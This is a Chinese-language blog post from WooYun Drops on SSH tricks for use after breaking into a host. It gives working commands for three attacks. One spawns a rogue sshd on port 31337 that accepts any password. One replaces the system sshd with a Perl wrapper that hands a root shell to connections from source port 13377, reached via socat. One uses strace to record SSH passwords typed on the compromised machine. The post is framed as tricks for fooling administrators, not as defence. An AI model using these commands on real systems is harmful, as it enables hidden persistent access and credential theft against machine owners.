


# 渗透技巧之 SSH 篇

2014/05/12 13:57 | [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

用些小技巧，蒙蒙菜鸟管理员。

### 1\. 入侵得到 SHELL 后，对方防火墙没限制，想快速开放一个可以访问的 SSH 端口

肉鸡上执行

```
mickey@vic:~# ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=31337; 

```

就会派生一个 31337 端口，然后连接 31337，用 root/bin/ftp/mail 当用户名，密码随意，就可登陆。

效果图：



### 2\. 做一个 SSH wrapper 后门，效果比第一个好，没有开放额外的端口，只要对方开了 SSH 服务，就能远程连接

在肉鸡上执行：

```
[root@localhost ~]# cd /usr/sbin
[root@localhost sbin]# mv sshd ../bin
[root@localhost sbin]# echo '#!/usr/bin/perl' >sshd
[root@localhost sbin]# echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
[root@localhost sbin]# echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
[root@localhost sbin]# chmod u+x sshd
[root@localhost sbin]# /etc/init.d/sshd restart

```

在本机执行：

```
socat STDIO TCP4:10.18.180.20:22,sourceport=13377

```

如果你想修改源端口，可以用 python 的 struct 标准库实现

```
>>> import struct
>>> buffer = struct.pack('>I6',19526)
>>> print repr(buffer)
'\x00\x00LF'
>>> buffer = struct.pack('>I6',13377)
>>> print buffer
4A

```

效果图如下：


### 3\. 记录 SSH 客户端连接密码

搞定主机后，往往想记录肉鸡 SSH 连接到其他主机的密码，进一步扩大战果，使用 strace 命令就行了。

效果图：



版权声明：未经授权禁止转载 [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [64 位 Linux 下的栈溢出](http://drops.wooyun.org/tips/2288)
*   [Kippo 蜜罐指南](http://drops.wooyun.org/papers/4578)
*   [各种环境下的渗透测试](http://drops.wooyun.org/tips/411)
*   [Python 编写简易木马程序](http://drops.wooyun.org/papers/4751)
*   [GNU/Linux 安全基线与加固-0.1](http://drops.wooyun.org/tips/2621)
*   [One git command may cause you hacked(CVE-2014-9390)](http://drops.wooyun.org/papers/4386)